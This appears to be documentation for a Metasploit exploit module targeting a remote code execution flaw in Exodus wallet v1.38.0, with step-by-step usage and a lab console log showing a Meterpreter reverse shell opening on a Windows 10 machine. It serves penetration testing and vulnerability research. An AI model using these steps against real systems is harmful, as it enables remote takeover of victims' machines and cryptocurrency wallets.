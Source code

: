 ## Description
This module exploits an Electron remote code execution vulnerability in Exodus wallet. Using the Electron remote code execution vulnerability in protocol handler is possible to inject command line arguments via URI handler. This module has been tested successfully on Windows 10 Enterprise x64. The vulnerable application is available for download at [Exodus v1.38.0](https://github.com/DanielRTeixeira/Exodus/raw/master/exodus-windows-x64-1.38.0.exe).

## Verification Steps
1. Install Exodus Wallet version `v1.38.0`
2. Start `msfconsole`
3. Do `use exploit/windows/browser/exodus`
4. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Do `set LHOST ip`
6. Do `exploit`
7. On the target machine, browse to the malicious URL and launch Exodus
8. Verify the Meterpreter session is opened

## Scenarios

### Exodus Wallet v1.38.0 on Windows 10 Enterprise x64

```
msf > use exploit/windows/browser/exodus
msf exploit(windows/browser/exodus) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/browser/exodus) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/browser/exodus) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(windows/browser/exodus) > [*] Local IP: http://172.16.40.5:80/
[*] Server started.
[*] 172.16.40.149    exodus - Delivering Payload
[*] Sending stage (179779 bytes) to 172.16.40.149
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.149:49726) at 2018-02-23 15:40:17 +0000

msf exploit(windows/browser/exodus) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : DESKTOP-PI8214R
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
